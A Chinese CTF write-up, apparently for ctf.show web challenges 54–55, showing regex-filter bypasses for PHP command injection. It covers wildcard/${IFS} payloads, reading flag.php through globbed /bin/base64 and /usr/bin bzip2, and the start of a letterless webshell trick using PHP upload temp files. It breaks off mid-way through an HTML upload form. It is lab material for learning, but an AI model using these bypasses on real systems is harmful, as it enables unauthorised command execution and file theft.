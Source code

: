 这道题加强了正则表达式

![image-20240425202337926](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404252023965.png)

```
例如.*c.*a.*t.*
就是匹配所有包含cat的字符串（不区分顺序）
```

用模糊匹配绕过

```
payload：?c=/bin/c??${IFS}????????
```

### web-55

**payload1**

利用bin目录

```
bin为binary的简写主要放置一些 系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等
这里我们可以利用 base64 中的64 进行通配符匹配 即 /bin/base64 flag.php
```

使用base64对flag.php进行加密同时使用?绕过字母限制



**payload2**

利用/user/bin目录

```
主要放置一些应用软件工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、newaliases、nslookup passwd、quota、smb*、wget等。
我们可以利用/usr/bin下的bzip2 意思就是说我们先将flag.php文件进行压缩，然后再将其下载
```

先c=/???/???/????2 ????.???

然后在url+ flag。php。bz2下载文件



**payload3**

无字母数字shell

无字母数字webshell之提高篇

shell下可以利用.来执行任意脚本

可以通过发送一个上传文件的POST包，只要是php接收到上传的POST请求(请求结束后会删除临时文件)，就

会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的

大小写字母以及数字

写一个post上传表单

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://99da1d95-7eb6-468a-b044-cf1b1b5b393d.challenge.ctf.show/" method="post" enctype="multipart/form-data">
    <!--目标网址-->
    <label for="file">文件名：</label>
```